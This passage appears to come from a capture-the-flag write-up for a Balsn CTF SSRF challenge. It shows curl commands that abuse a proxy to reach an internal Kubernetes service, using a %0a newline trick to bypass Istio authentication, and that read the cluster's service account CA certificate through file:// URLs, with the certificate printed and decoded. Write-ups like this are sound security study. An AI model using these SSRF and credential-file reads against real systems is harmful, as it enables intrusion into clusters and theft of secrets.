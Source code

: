 ```bash
curl -o - http://proxy.balsnctf.com/query?site=http://secret-service-20a91e:39307/%250a
here is your flag: <a href="/flag">/flag</a>
```

**Flags!**

## Questions left

- Why `%0a` or `/` can bypass Istio authentication?

## Side Notes - Access to Kubernetes Master

K8s Service Account token is accessible in the proxy.

```bash
firebird@ac96ad13d621:/proc/self$ curl -cv --output - http://proxy.balsnctf.com/query?site=file:///run/secrets/kubernetes.io/serviceaccount/ca.crt

-----BEGIN CERTIFICATE-----
MIIELDCCApSgAwIBAgIQB5VSGqW9xTNateZoZnHdjzANBgkqhkiG9w0BAQsFADAv
MS0wKwYDVQQDEyQ4OThlNTcxZS0zNmUyLTQyZTYtYWFmOS04OWZmN2M5NzBkNDUw
IBcNMjExMTE5MDkzMTEwWhgPMjA1MTExMTIxMDMxMTBaMC8xLTArBgNVBAMTJDg5
OGU1NzFlLTM2ZTItNDJlNi1hYWY5LTg5ZmY3Yzk3MGQ0NTCCAaIwDQYJKoZIhvcN
AQEBBQADggGPADCCAYoCggGBAJICaiVDNe9YMy+bsidD2WAxUWfGtHQULC1oR1cX
vJYAf/SnZVQXqgYa5Gya8WJnRA+uu1Z3gAMBSf7NEex9F+yatcjfJimayV0/Qtkd
nS7AcYST5HCWYXYUnG+vDM5Q0jvmHxqNLtbYoNy94Vz2x038qhl2Uos01mazRO26
0J7oCHvWrD0G5iWn2Su6CErr5d3QhXXtvTYudYvPI0wpjv/mrBIC9aZ2kM1E387h
cC5WyvQ4v87SXixpthFR+1jJ7mcQoNmJDovRQGvlDFL6uE0301VXdRuKNOfMNVQw
x7if62CyE5EydZQAEJJdWEzVeAacxtjsD0Du4R1Pzb79y0+9BnUh+moxGQeydDHt
+GgPaKB9jmNsrLZfwsBY5yzMN1ITVQ3eLJcPI7BG9W60GhZhgGJtuydbdIZkm/2h
6tKpQ470OXc0QhC2HlJgKm5ExxiEljI3ZRgpbCxBLOPt8Gt4W0BsDr74EZgdF4Jl
A9Uec+I6Rk8eWDsShizsmlNmIQIDAQABo0IwQDAOBgNVHQ8BAf8EBAMCAgQwDwYD
VR0TAQH/BAUwAwEB/zAdBgNVHQ4EFgQUpVIShS+GBzPb194rR/C2ylBZevYwDQYJ
KoZIhvcNAQELBQADggGBABUbKRD64987NPOaDarkGjl6G0aVRfKwSrRl8bA9wDIp
+B9tKge0OVF0nztcM7D3DCKA0Dg8o67DAPay9zFmC/4Af/BEieaCS9/8xs0WnPV6
Sjfle3pIzhUZ5HyTHV676rEnsqYwud0CAFPq/fxkqNxL/55BCkMmEbl3YS+SoB1+
Mh1tS8Cp7rIy29zA5Yhu6Ru+juB8L7sVeF7Iq4HV0ZDURGadM2Gh6U/MOISb6TNH
7sTu18Dq83JCt+0o6YmyW0ivUC+U0gDt+zmsKdBucdIg+jSlsP/9bKYMz0ORpp/d
8vgTuqUYJhflPzQFi5xYqoQGAHreh1QPNRozf6OmoeJZ4TlRdZlVMRL/x7sc9zVB
U1F7LB3U8aNFGRJJmcowoVQRebUZwiDHjUqn5Z3Xre4gc1WX/8DddlvMRd/hn8+j
XOxN5Jf9xArlNyQaNm7SnHvThbGT9QgJTCmbASQOyK+kDSpkl6Q+paOD0GGjdyyQ
JdSFRTU4TsJH4EcDxA0qFw==
-----END CERTIFICATE-----

# which translate to...

Basic Fields
  serial number: 0795521aa5bdc5335ab5e6686671dd8f
  signature algorithm: SHA256withRSA
  issuer: /CN=898e571e-36e2-42e6-aaf9-89ff7c970d45
  notBefore: 211119093110Z
  notAfter: 20511112103110Z
  subject: /CN=898e571e-36e2-42e6-aaf9-89ff7c970d45
  subject public key info: 
    key algorithm: RSA
    n=0092026a254335ef...
    e=010001
X509v3 Extensions:
  keyUsage CRITICAL:
    keyCertSign
  basicConstraints CRITICAL:
    cA=true
  subjectKeyIdentifier :
    a55212852f860733dbd7de2b47f0b6ca50597af6
```